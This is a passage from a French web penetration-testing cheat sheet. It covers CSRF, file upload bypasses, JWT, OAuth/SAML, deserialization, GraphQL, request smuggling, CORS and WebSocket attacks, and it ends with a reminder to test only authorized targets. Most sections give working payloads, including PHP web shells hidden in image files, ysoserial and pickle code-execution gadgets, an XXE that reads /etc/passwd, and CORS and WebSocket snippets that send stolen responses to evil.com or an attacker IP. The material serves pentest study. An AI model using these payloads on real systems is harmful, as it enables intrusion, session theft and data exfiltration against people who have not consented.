<script>document.forms[0].submit()</script>
```

### 11.2 Analyse des tokens CSRF

```
# 1. Token présent ?
# 2. Token lié à la session ?
# 3. Token prévisible ? (timestamp, séquentiel)
# 4. Token régénéré à chaque requête ?
```

### 11.3 SameSite cookies

```
# Lax (défaut) : CSRF sur GET top-level navigations
# Strict : pas de CSRF
# None : pas de protection (nécessite Secure)

# Bypass SameSite=Lax :
# 1. Top-level GET navigation
# 2. Nouvelles fenêtres (window.open)
# 3. Redirect chains
```

### 11.4 CORS-based CSRF

```javascript
fetch('http://bank.com/api/transfer', {
  method: 'POST',
  credentials: 'include',
  headers: {'Content-Type': 'application/x-www-form-urlencoded'},
  body: 'to=attacker&amount=1000'
})
```

### 11.5 Subdomain-based CSRF

```
# Si le cookie est setté sur .target.com
# Un XSS sur sub.target.com peut exploiter target.com
```

> [!success] 🏆 **Protections à vérifier**
> - Token CSRF présent ? lié à la session ?
> - Cookie `SameSite` ? (Lax/Strict/None)
> - Origine/Referer vérifiés ?

---
## 12. File Upload

> 📘 Fiche détaillée : [[Techniques/Upload de fichiers|📤 Upload de fichiers]]

### 12.1 Bypass d'extensions

| Extension | Alternatives |
|-----------|----|
| .php | .php5, .phtml, .pht, .phar, .phps |
| .asp | .aspx, .asa, .cer, .cdx |
| .jsp | .jspx, .jsw, .jsv, .jspf |
| .html | .htm, .shtml, .xhtml |

```bash
# Double extension
shell.php.jpg / shell.php.png

# Casse
shell.pHp / shell.PHP

# Caractères spéciaux
shell.php. (trailing dot)
shell.php:.jpg (ADS)
shell.php::$DATA (ADS bypass)
```

### 12.2 Bypass Magic bytes & Content-Type

```
# Magic bytes PNG + PHP après
89 50 4E 47 0D 0A 1A 0A  <?php system($_GET['c']); ?>

# Content-Type à falsifier
Content-Type: image/png

# GIF89a en début de fichier
GIF89a<?php system($_GET['c']); ?>
```

### 12.3 .htaccess / web.config bypass

```
# .htaccess (Apache)
AddType application/x-httpd-php .jpg

# web.config (IIS)
<handlers>
  <add name="evil" path="*.jpg" verb="*"
       type="System.Web.UI.PageHandlerFactory" />
</handlers>
```

### 12.4 Polyglot shells

```bash
exiftool -Comment='<?php system($_GET["c"]); ?>' shell.jpg
mv shell.jpg shell.php.jpg
```

### 12.5 Upload validation bypass

```
# 1. Renommer en double extension
# 2. Falsifier Content-Type en Burp
# 3. Ajouter magic bytes PNG
# 4. Uploader .htaccess puis shell.jpg
# 5. Contourner le filtre de taille → chunked upload
```

```bash
curl http://192.168.1.10/uploads/shell.png?c=id
weevely generate pass shell.php && weevely http://192.168.1.10/uploads/shell.php pass
```

---
## 13. JWT & Token Attacks

> 📘 Fiche détaillée : [[Techniques/Attaques JWT|🎫 Attaques JWT]]

### 13.1 Algorithme "none"

```
eyJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4iLCJyb2xlIjoiYWRtaW4ifQ.
```

### 13.2 Key confusion (RS256 → HS256)

```
# Signer avec HS256 en utilisant la clé publique comme HMAC secret
# jwt.encode(payload, pub, algorithm='HS256')
```

### 13.3 Brute force de clé faible

```bash
hashcat -m 16500 jwt.txt wordlist.txt
python3 jwt_tool.py <token> -C -d wordlist.txt
```

### 13.4 JWK injection

```
{
  "alg": "RS256",
  "jwk": {"kty": "RSA", "n": "...clé_publique...", "e": "AQAB"}
}
```

### 13.5 JKU abuse

```
{
  "alg": "RS256",
  "jku": "http://attacker.com/jwks.json"
}
```

### 13.6 kid injection

```
{
  "alg": "HS256",
  "kid": "../../dev/null"
}
```

```bash
"kid": "/dev/null"
"kid": "../../../../etc/hostname"
"kid": "x' OR '1'='1"
```

---
## 14. OAuth & SAML Attacks

> 📘 Fiches détaillées : [[Techniques/OAuth|🔑 OAuth]] · [[Techniques/SAML|🔐 SAML]]

### 14.1 OAuth — redirect_uri bypass

```
# Bypasses courants :
# 1. Sous-domaine non vérifié → https://evil.target.com/callback
# 2. Path traversal → /callback/../evil
# 3. URL scheme → app://callback
# 4. Open redirect sur target.com → token volé
```

### 14.2 OAuth — state bypass

```
# 1. Omettre le state → CSRF sur le flow OAuth
# 2. State fixe → CSRF prédictible
# 3. State dans le cookie → volé par XSS
```

### 14.3 OAuth — token leakage

```
# Tokens dans les logs (Referer header)
# Tokens dans les fragments URL
# Implicit flow : token dans l'URL → leakable via Referer
```

### 14.4 SAML — assertion forgery

```
<saml:Assertion>
  <saml:Subject>
    <saml:NameID>admin@target.com</saml:NameID>
  </saml:Subject>
  <saml:AttributeStatement>
    <saml:Attribute Name="role">
      <saml:AttributeValue>admin</saml:AttributeValue>
    </saml:Attribute>
  </saml:AttributeStatement>
</saml:Assertion>
```

### 14.5 SAML — XXE dans l'assertion

```
<samlp:Response>
  <!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <saml:Assertion>
    <saml:Attribute>&xxe;</saml:Attribute>
  </saml:Assertion>
</samlp:Response>
```

### 14.6 SAML — signature wrapping

```
# Technique : dupliquer l'élément signé
# La signature valide le premier élément
# L'application utilise le deuxième (malveillant)
# Outil : SAMLRaider (Burp extension)
```

---
## 15. Désérialisation (PHP/Java/...)

> [!danger] 🚨 **La plus "code-heavy" des vulns**
> - **PHP** : `unserialize()` sur une entrée contrôlée → gadget chains (PHPGGC)
> - **Java** : `ObjectInputStream` → ysoserial (CommonsCollections, Groovy...)
> - **Ruby/JS** : `Marshal.load`, `deserialize`

### 15.1 PHP — PHPGGC

```bash
phpggc Laravel/RCE1 system 'id'
phpggc Symfony/RCE1 system 'id'
phpggc CodeIgniter/RCE1 system 'id'
phpggc Monolog/RCE1 system 'id'
phpggc -l  # listage des chains
```

### 15.2 Java — ysoserial

```bash
java -jar ysoserial.jar CommonsCollections1 'bash -c {echo,BASE64}|{base64,-d}|{bash,-i}' > payload.bin

# Chains : CommonsCollections1-5, CommonsBeanutils1
# Groovy1, Spring1/2, Jdk7u21, JRMPClient/JRMPListener

cat payload.bin | base64
```

### 15.3 Python

```python
import pickle, os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('id',))

payload = pickle.dumps(Exploit())
# Outils : pyrasuite
```

### 15.4 Signed deserialization

```
# Si le payload est signé :
# 1. Trouver la clé de signature (config publique, clé faible)
# 2. Signer le payload malveillant avec la bonne clé
# 3. Injecter le payload signé
```

---
## 16. GraphQL Attacks

> 📘 Fiche détaillée : [[Techniques/GraphQL|🕸️ GraphQL]]

### 16.1 Introspection

```
POST /graphql
{"query":"{ __schema { types { name fields { name type { name } } } } }"}
{"query":"{ __type(name: \"User\") { name fields { name type { name } } } }"}
```

### 16.2 Batching (rate limit bypass)

```
[
  {"query": "mutation { login(user:\"admin\",pass:\"test1\") { token } }"},
  {"query": "mutation { login(user:\"admin\",pass:\"test2\") { token } }"},
  {"query": "mutation { login(user:\"admin\",pass:\"test3\") { token } }"}
]
```

### 16.3 Alias (bypass rate limit)

```
{
  a1: login(user:"admin",pass:"pass1") { token }
  a2: login(user:"admin",pass:"pass2") { token }
  a3: login(user:"admin",pass:"pass3") { token }
}
```

### 16.4 Injection dans GraphQL

```
# IDOR
query { user(id: "2") { email role } }

# SQL injection
query { users(name: "admin' OR '1'='1") { id } }

# NoSQL injection
query { users(name: "{\"$gt\"\:\"\\"}") { id } }
```

### 16.5 GraphQL DoS

```
{ __schema { types { fields { type { fields { type { fields } } } } } } }
{ user { friends { friends { friends { friends { id } } } } } }
```

### 16.6 Auth bypass

```
mutation { updateUser(id:"1", role:"admin") { id role } }
```

```bash
graphqlmap -u http://192.168.1.10/graphql --method POST
```

---
## 17. HTTP Request Smuggling

> 📘 Fiche détaillée : [[Techniques/HTTP Request Smuggling|🧱 HTTP Request Smuggling]]

### 17.1 Types de smuggling

| Type | Mécanisme | Problème |
|------|-----------|----------|
| **CL.TE** | Front: Content-Length / Back: Transfer-Encoding | Backend ignore CL |
| **TE.CL** | Front: Transfer-Encoding / Back: Content-Length | Front ignore TE |
| **TE.TE** | Deux TE différents | Obfuscation |
| **CL.0** | Content-Length: 0 mais body non vide | Backend lit le body suivant |

### 17.2 CL.TE exploit

```
POST / HTTP/1.1
Host: target.com
Content-Length: 6
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: target.com
```

### 17.3 TE.CL exploit

```
POST / HTTP/1.1
Host: target.com
Content-Length: 44
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: target.com
```

### 17.4 TE.TE obfuscation

```
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding : chunked
Transfer-Encoding: chunked, identity
```

### 17.5 CL.0 smuggling

```
POST / HTTP/1.1
Host: target.com
Content-Length: 8
Transfer-Encoding: chunked

0

SMUGGLED
```

### 17.6 WebSocket smuggling

```
# Upgrade HTTP → WebSocket
# Si le front ne vérifie pas l'upgrade correctement
# → requête HTTP smugglée dans le flux WebSocket
```

### 17.7 Impact

```
# 1. Bypass d'authentification
# 2. Vol de cookies d'autres utilisateurs
# 3. XSS stocked via les réponses
# 4. Escalation vers RCE
```

```bash
# Outil : Burp "HTTP Request Smuggler" extension
```

---
## 18. Authentication & Session Attacks

### 18.1 Password reset flaws

```
# 1. Token prévisible (timestamp, séquentiel)
# 2. Token dans l'URL (référent log)
# 3. Token non invalidé après usage
# 4. Host header injection → reset email vers l'attaquant
# 5. Réponse différente pour user existant/non-existant
```

### 18.2 Session fixation

```
# L'application accepte un session ID imposé
# 1. Attaquant obtient un session ID
# 2. Victime se connecte avec ce cookie
# 3. Attaquant utilise le même session ID → accès au compte

# Vérification : le cookie change-t-il après authentification ?
```

### 18.3 Cookie analysis

```
Set-Cookie: session=abc; HttpOnly; Secure; SameSite=Lax; Path=/

# Absence de HttpOnly → XSS peut voler le cookie
# Absence de Secure → cookie envoyé en HTTP (MITM)
# SameSite=None → CSRF possible
# Domain trop large → accessible depuis d'autres sous-domaines
```

### 18.4 JWT session handling

```
# JWT sans expiration → valide pour toujours
# JWT sans refresh token → pas de rotation → vol permanent
# JWT en localStorage → XSS → vol complet
# Refresh token sans rotation → accès permanent
```

### 18.5 Race conditions sur l'auth

```
# Brute force en parallèle (rate limit bypass)
# - Envoyer 100 requêtes simultanées
# - Si le compteur est incrémenté après vérification → bypass
# - Outil : turbo intruder (Burp)

# Double authentication
# - Cliquer "login" deux fois rapidement
# - Deux sessions créées → une session non-trackée
```

---
## 19. API Security

### 19.1 REST vs GraphQL vs gRPC

| Aspect | REST | GraphQL | gRPC |
|--------|------|---------|------|
| Format | JSON | JSON | Protobuf |
| Endpoints | Multiples | Un seul | Un seul |
| Auth | Headers/Cookies | Headers/Cookies | Metadata |
| Vulns typiques | IDOR, mass assign | Introspection, batching | Injection, auth bypass |

### 19.2 Rate limiting bypass

```
# 1. Rotation d'IP (proxy, VPN)
# 2. X-Forwarded-For: 1.2.3.4
# 3. Batching (GraphQL) — 100 ops en 1 requête
# 4. HTTP/2 multiplexing
# 5. Découpage de payload
```

### 19.3 Mass assignment

```
POST /api/user/register
{"name":"hacker", "email":"h@h.com", "role":"admin", "credits":999999}

PATCH /api/profile
{"name":"hacker", "admin":true}
```

### 19.4 BOLA / BFLA

```
# BOLA (Broken Object Level Authorization) = IDOR
GET /api/users/1  ->  200
GET /api/users/2  ->  200 (fail)

# BFLA (Broken Function Level Authorization)
GET /api/admin/users  ->  200 (fail)
DELETE /api/users/1  ->  200 (fail)
```

### 19.5 Versioning issues

```
GET /api/v1/users  ->  retourne tout (pas de filtre)
GET /api/v2/users  ->  retourne les données filtrées
```

---
## 20. Race Conditions

### 20.1 TOCTOU (Time of Check to Time of Use)

```
# Vérification puis action -> intervalle exploitable
# Exemple : vérification du solde puis transfert
# 1. Lancer 10 transferts simultanés de 100€
# 2. Le solde est vérifié pour TOUS avant le premier débit
# 3. 1000€ transférés avec seulement 100€ de solde
```

### 20.2 Concurrent file upload

```
# Uploader le même fichier deux fois en parallèle
# Race condition sur le renommage ou la validation
# Résultat : fichier malveillant bypass le scan antivirus
```

### 20.3 Double spend

```
# Cryptocurrency, points, coupons...
# Utiliser un coupon deux fois simultanément
# Les deux requêtes passent avant le compteur
```

### 20.4 Order of operations exploitation

```
# Modifier le prix avant la validation du paiement
# PUT /api/cart {"item":"laptop","price":1}
# PUT /api/order/confirm en même temps
```

```bash
# Outils : turbo intruder (Burp), race-poc.py
```

---
## 21. Open Redirect

> 📘 Fiche détaillée : [[Techniques/Open Redirect|🔀 Open Redirect]]

### 21.1 Payloads de base

```
http://target.com/redirect?url=http://evil.com
http://target.com/redirect?next=http://evil.com
http://target.com/redirect?redirect=http://evil.com
http://target.com/redirect?return_to=http://evil.com
```

### 21.2 Filter bypass

```bash
# Protocole relatif
//evil.com

# Encodage
http://evil.com%00.target.com
http://evil.com%0d%0a.target.com

# Double encoding
http:%2F%2Fevil.com

# Subdomain trick
http://target.com@evil.com
http://target.com.evil.com

# Dotted decimal
http://0x7f000001.target.com
```

### 21.3 Redirection -> XSS

```
http://target.com/redirect?url=javascript:alert(1)
# Si le redirect utilise la valeur en JavaScript :
# window.location = decodeURIComponent(getParam('url'))
```

### 21.4 Open redirect -> OAuth abuse

```
# Si le redirect_uri d'OAuth est sur target.com
# Et target.com a un open redirect
# -> Le token OAuth est volé via le redirect
```

---
## 22. Clickjacking

> 📘 Fiche détaillée : [[Techniques/Clickjacking|🖱️ Clickjacking]]

### 22.1 Test de base

```bash
curl -sI http://192.168.1.10 | grep -iE "x-frame-options|content-security-policy"
```

### 22.2 PoC HTML

```html
<iframe src="http://bank.com/settings" style="opacity:0;position:absolute;top:0;left:0;width:100%;height:100%"></iframe>
<button style="position:absolute;top:100px;left:200px;z-index:2">Click here</button>
```

### 22.3 Framing bypass

```html
<!-- X-Frame-Options: SAMEORIGIN bypass via subdomain -->
<!-- Double framing -->
<iframe src="http://target.com">
  <!-- Premier iframe = légitime -->
  <!-- Deuxième iframe = attaquant -->
</iframe>
```

### 22.4 Cursorjacking

```html
<style>
  * { cursor: none !important; }
  #fake-cursor {
    position: fixed;
    pointer-events: none;
    z-index: 9999;
  }
</style>
<div id="fake-cursor"></div>
```

---
## 23. CORS Misconfiguration

> 📘 Fiche détaillée : [[Techniques/CORS|🌐 CORS]]

### 23.1 Test

```bash
curl -H "Origin: http://evil.com" -I http://target.com/api/data
# Access-Control-Allow-Origin: http://evil.com
# Access-Control-Allow-Credentials: true -> Fail critique
```

### 23.2 Null origin bypass

```html
<iframe sandbox="allow-scripts" src="data:text/html,<script>
fetch('http://target.com/api/data',{credentials:'include'})
.then(r=>r.text()).then(t=>fetch('http://evil.com/?d='+t))
</script>"></iframe>
```

### 23.3 Subdomain trust abuse

```
# Si le serveur accepte *.target.com comme Origin
# 1. Trouver un XSS sur n'importe quel sous-domaine
# 2. Utiliser ce XSS pour lire les données de target.com
```

### 23.4 Preflight abuse

```
# Le preflight (OPTIONS) est vérifié avant le vrai request
# Si le preflight accepte mais le vrai request rejette -> bypass possible
```

---
## 24. WebSocket Attacks

> 📘 Fiche détaillée : [[Techniques/Web Sockets|🔌 Web Sockets]]

### 24.1 Cross-site WebSocket hijacking

```javascript
// Si l'auth est par cookie
ws = new WebSocket('wss://bank.com/ws');
ws.onmessage = e => fetch('http://IP/?d=' + e.data);
// Le browser envoie automatiquement les cookies
```

### 24.2 Message injection

```javascript
// Si les messages ne sont pas validés côté serveur
ws.send('{"action":"transfer","to":"attacker","amount":1000}');
```

### 24.3 Auth bypass

```bash
wscat -c ws://target.com/ws
wscat -c ws://target.com/ws --protocol evil
```

---
## 25. HTTP Parameter Pollution

> 📘 Fiche détaillée : [[Techniques/HTTP Parameter Pollution|🧬 HTTP Parameter Pollution]]

### 25.1 Server-side vs Client-side

```
GET /transfer?to=attacker&amount=1&to=victim&amount=100

# PHP: prend la dernière valeur -> to=victim, amount=100
# ASP.NET: concatène avec virgule -> to=attacker,victim
# Java: prend la première valeur -> to=attacker, amount=1
```

### 25.2 Payload injection via HPP

```
# Contourner un filtre en dupliquant le paramètre
GET /search?q=innocent&q=<script>alert(1)</script>

# CSRF token bypass
POST /api/change-email
email=hacker@test.com&csrf_token=VALID&email=victim@test.com
```

---
## 26. Vulns avancées à connaître

### 26.1 HTTP Request Smuggling (résumé)

> 📘 Fiche détaillée : [[Techniques/HTTP Request Smuggling|🧱 HTTP Request Smuggling]]

```
# Principe : un proxy (nginx/CDN) et le serveur backend n'analysent PAS le même
# nombre de requêtes dans un même flux -> on "glisse" une requête cachée.

# Test rapide (TE.CL) :
# Envoyer un POST avec Content-Length: 4 et Transfer-Encoding: chunked :
0

GET /admin HTTP/1.1
Host: 127.0.0.1
...

# Outils : Burp "HTTP Request Smuggler" extension
# Impact : bypass auth, cache poisoning, vol de requêtes d'autres utilisateurs
```

### 26.2 GraphQL — introspection (résumé)

> 📘 Fiche détaillée : [[Techniques/GraphQL|🕸️ GraphQL]]

```
POST /graphql
{"query":"{ __schema { types { name fields { name } } } }"}

graphqlmap -u http://192.168.1.10/graphql --method POST
```

### 26.3 CORS mal configuré (résumé)

> 📘 Fiche détaillée : [[Techniques/CORS|🌐 CORS]]

```
# Origin: evil.com -> Access-Control-Allow-Origin: evil.com
# + Access-Control-Allow-Credentials: true
fetch('http://bank.com/api/me').then(r=>r.text()).then(t=>fetch('http://IP/?d='+t))
```

### 26.4 Subdomain takeover

```
dig CNAME vieux.example.com
# -> pointe vers some-app.herokuapp.com (supprimé)
# Réclamer le sous-domaine -> contrôle total
# Outils : subjack, subover, can-i-take-over-xyz
```

### 26.5 Cache Poisoning

```
# Web Cache Deception — forcer la mise en cache de pages sensibles
GET /account.js -> le CDN met en cache avec le contenu de /account
X-Forwarded-Host: evil.com
X-Original-URL: /admin
```

> 📘 Fiche détaillée : [[Techniques/Web Cache Deception|🗄️ Cache Deception]]

### 26.6 DNS Rebinding

```
# Le DNS résout une IP puis une autre après le TTL
# Impact : accès au réseau local depuis le navigateur
# Outil : rbndr.us, rebinder
```

> 📘 Fiche détaillée : [[Techniques/DNS Rebinding|🔗 DNS Rebinding]]

### 26.7 Prototype Pollution (Node.js)

```javascript
let a = {}
JSON.parse('{"__proto__":{"admin":true}}')
// a.admin -> true

// Prototype Pollution -> XSS via template rendering
// Prototype Pollution -> RCE via child_process.exec
```

> 📘 Fiche détaillée : [[Techniques/Prototype Pollution|🔧 Prototype Pollution]]

### 26.8 Business Logic

```
# - Prix négatif (quantité: -1)
# - Bypass de vérification d'état
# - Énumération de codes promo
# - Manipulation des totaux
# - Ordre d'opérations (transférer AVANT de vérifier le solde)
```

> 📘 Fiche détaillée : [[Techniques/Business Logic|🧠 Business Logic]]

---
## 27. Automatisation & Burp

### 27.1 Workflow typique d'un engagement web



### 27.2 Burp Suite — workflow complet

```
# 1. Proxy -> Configure le navigateur -> Observer le trafic
# 2. Spider/Crawl -> Cartographie automatique
# 3. Active Scan -> Scan automatique des vulns
# 4. Intruder -> Fuzzing ciblé
# 5. Repeater -> Manipulation manuelle
# 6. Decoder -> Encodage/décodage
# 7. Comparer -> Comparer les réponses
```

### 27.3 Extensions Burp indispensables

| Extension | Usage |
|-----------|-------|
| **Autorize** | Tester l'autorisation sur chaque endpoint |
| **Active Scan++** | Plus de checks que le scan par défaut |
| **Turbo Intruder** | Brute-force ultra rapide |
| **HTTP Request Smuggler** | Détection automatique smuggling |
| **Logger++** | Suivre tout ce qui transite |
| **Burp Bounty** | Personnaliser les scans |
| **Hackvertor** | Encodages/décodages avancés |
| **JWT Editor** | Manipulation de tokens JWT |

### 27.4 ffuf — utilisation avancée

```bash
ffuf -u http://target.com/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200,301,302

ffuf -u http://target.com/page -w burp-parameter-names.txt -mc 200

ffuf -u http://target.com/login -X POST -d "user=FUZZ&pass=test" -w users.txt -mc 200

ffuf -u http://target.com/admin -H "X-Forwarded-For: FUZZ" -w ips.txt -mc 200

ffuf -u http://FUZZ.target.com -w subdomains.txt -mc 200
```

### 27.5 wfuzz

```bash
wfuzz -c -z file,wordlist.txt --hc 404 http://192.168.1.10/FUZZ
wfuzz -c -z file,wordlist.txt --hl 10 http://192.168.1.10/FUZZ
```

### 27.6 nuclei

```bash
nuclei -u http://192.168.1.10 -t cves/ -t exposures/
nuclei -u http://192.168.1.10 -t technologies/ -t misconfigurations/
nuclei -l urls.txt -t critical-severe/ -o results.txt
```

### 27.7 OWASP ZAP

```bash
zap-cli quick-scan -s all http://192.168.1.10
zap-cli active-scan http://192.168.1.10
zap-cli report -o report.html -f html
```

---
## 28. 🧠 Tips & Pièges (web)

> [!tip] 🧩 **Extensions Burp indispensables**
> - **Autorize** : tester l'autorisation sur chaque endpoint (horizontal/vertical)
> - **Active Scan++** : plus de check que le scan par défaut
> - **Turbo Intruder** : brute-force ultra rapide
> - **HTTP Request Smuggler** : détection automatique des smuggling
> - **Logger++** : suivre tout ce qui transite

> [!tip] 🗃️ **SecLists = LA collection de wordlists**
> ```bash
> git clone https://github.com/danielmiessler/SecLists /usr/share/seclists
> # Payloads web, usernames, passwords, fuzzing, takeover...
> ```
> Plus complet que `rockyou.txt` pour le fuzzing web.

> [!tip] 🔁 **Tester les 4 verbes HTTP pour chaque action**
> `GET /api/users/delete`, `POST`, `PUT`, `DELETE` — les API oublient souvent
> d'autoriser correctement un verbe. Un `PUT` pour changer le rôle d'un autre user = IDOR vertical.

> [!warning] ⚠️ **Piège : ne pas fuzzer la stack entière à la fois**
> - Une vuln "sale" (crash) peut déstabiliser la prod.
> - Teste **paramètre par paramètre**, **méthode par méthode**.
> - Vérifie toujours l'**impact réel** (ne te contente pas de "200").

> [!warning] ⚠️ **Piège : les réponses 403 ≠ "sécurisé"**
> Un 403 sur `/admin` peut être contourné :
> ```
> /admin -> /admin/ , ///admin, /Admin, /admin/..
> X-Forwarded-For: 127.0.0.1
> X-Original-URL: /admin
> ```

> [!success] 🏆 **Le chaînage gagnant**
> Une seule vuln suffit rarement. Combine :
> - **XSS -> vol de session admin -> IDOR/upload**
> - **LFI -> log poisoning -> RCE**
> - **SSRF -> cloud metadata -> creds -> pivot**
> - **SQLi -> dump -> reuse des creds partout (note 05 AD)**

> [!tip] 🔍 **Toujours vérifier les technologies utilisées**
> - WhatWeb / Wappalyzer en premier -> identifier le framework
> - Certaines vulns sont spécifiques à un framework (Jinja2 SSTI, PHP unserialize)
> - La version exacte = CVE connues exploitables

> [!tip] 📋 **Documenter chaque découverte**
> - Sauvegarder les preuves (screenshots, requêtes HTTP, réponses)
> - Noter les chaines d'exploitation complètes
> - Un impact faible isolé peut devenir critique en chaînage

> [!warning] ⚠️ **Piège : les APIs modernes**
> - GraphQL, gRPC, WebSockets : surface d'attaque différente
> - Outils classiques (ZAP, nikto) ne couvrent pas toujours ces protocoles
> - Tests manuels + Burp = indispensable pour ces cas

> [!tip] 🛡️ **Penser à la défense quand on attaque**
> - Comprendre les protections (WAF, CSP, HSTS) pour mieux les bypasser
> - Savoir comment un développeur sécuriserait le code aide à trouver les failles
> - Lire les logs côté défense quand c'est possible (pentest, bug bounty log access)

> [!tip] ⚡ **L'importance du contexte métier**
> - Un IDOR sur un champ "nom" ≠ un IDOR sur "solde bancaire"
> - Évaluer l'**impact réel** pour la criticité du rapport
> - Prioriser les chaînes qui mènent à la RCE ou au vol de données sensibles

> [!success] 🏆 **Checklist rapide avant de clore**
> - Tous les verbes HTTP testés ?
> - Tous les headers utilisateur testés (User-Agent, X-Forwarded-For, X-Original-URL) ?
> - Les réponses d'erreur analysées (stack traces, debug info) ?
> - Les fichiers de configuration accessibles ? (.env, .git, backup)
> - Les sous-domaines et vhosts testés ?

---

> [!warning] ⚖️ **Rappel** : tester uniquement des cibles autorisées. Lab, Bug Bounty, contrats. 🔒

➡️ Suite logique : [[06 - Post-Exploitation|🕹️ Post-Exploitation]]
